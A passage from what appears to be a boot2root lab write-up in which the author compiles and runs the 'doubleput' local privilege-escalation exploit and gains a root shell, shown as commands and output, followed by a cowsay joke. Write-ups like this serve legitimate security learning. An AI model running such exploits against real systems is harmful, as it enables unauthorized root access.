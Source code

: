 On my shell, I looked around and saw that the files were uploaded to the <code>/home/www</code> directory. I copied them to /tmp, compiled and ran the exploit:

``` 
$ ./compile.sh
doubleput.c: In function 'make_setuid':
doubleput.c:91:13: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .insns = (__aligned_u64) insns,
             ^
doubleput.c:92:15: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .license = (__aligned_u64)""

$ ./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Getting root, a 3rd time! Thanks g0tmi1k for an awesome boot2root!

``` 
 _________________________________________
/ Q: How does a hacker fix a function     \
| which                                   |
|                                         |
| doesn't work for all of the elements in |
\ its domain? A: He changes the domain.   /
 -----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```









